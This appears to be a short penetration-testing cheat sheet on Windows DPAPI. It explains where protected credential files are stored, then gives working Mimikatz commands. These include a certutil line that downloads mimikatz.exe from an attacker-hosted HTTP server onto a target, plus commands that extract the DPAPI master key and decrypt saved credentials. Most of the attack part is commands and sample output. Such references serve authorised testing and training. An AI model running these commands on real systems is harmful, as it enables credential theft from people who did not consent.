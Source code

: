 # DPAPI

The **Data Protection API** (DPAPI) is a **built-in feature** of the Windows operating system that enables applications to securely store sensitive data, such as **passwords**. \
This information is saved within the **user’s profile directory** and is protected using **user-specific master keys**, which are derived from the user's password.&#x20;

These protected files are typically found at:

```powershell
C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID
```

Several applications (Google Chrome, Outlook, Internet Explorer, and Skype) utilize DPAPI to safeguard sensitive information. \
Windows itself also relies on DPAPI to store items like Wi-Fi passwords, digital certificates, Remote Desktop credentials, and more.

Common locations where DPAPI-encrypted data may be stored include:

```powershell
C:\Users\$USER\AppData\Local\Microsoft\Credentials\
C:\Users\$USER\AppData\Roaming\Microsoft\Credentials\
```



## DPAPI with Mimikatz (Windows)

Transfer the `mimikatz.exe` into Windows target system.

```bash
# attack machine
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .
python3 -m http.server 80

# target machine
certutil -urlcache -f http://$IP/mimikatz.exe mimi.exe
```

### Get DPAPI MasterKey

First things first, we have to obtain the masterkey by extracting and decryping it.

View the enable masterkeys to dencrypts:

```
dir C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SID\
```

{% code title="mimikatz.exe dpapi::masterkey" overflow="wrap" %}
```powershell
.\mimikatz.exe 'dpapi::masterkey /in:"C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SID\$GUID" /sid:$SID /password:$USER_PASSWORD /protected' exit
```
{% endcode %}

{% embed url="https://tools.thehacker.recipes/mimikatz/modules/dpapi/masterkey" %}

{% code title="Output" overflow="wrap" %}
```
[...snip...]
[masterkey] with password: Password123! (protected user)
  key : MASTERKEY_TO_COPY
  sha1: MASTERKEY_SHA1
```
{% endcode %}



### Decrypt DPAPI saved creds

With the MasterKey we can decrypt the protected files.

{% code title="mimikatz.exe dpapi::cred " overflow="wrap" %}
```powershell
.\mimikatz.exe 'dpapi::cred /in:"C:\Users\$USER\AppData\Roaming\Microsoft\Credentials\$PROTECTED_FILE" /masterkey:$MASTERKEY' exit
```
{% endcode %}

{% embed url="https://tools.thehacker.recipes/mimikatz/modules/dpapi/cred" %}



## Resources

{% embed url="https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets" %}
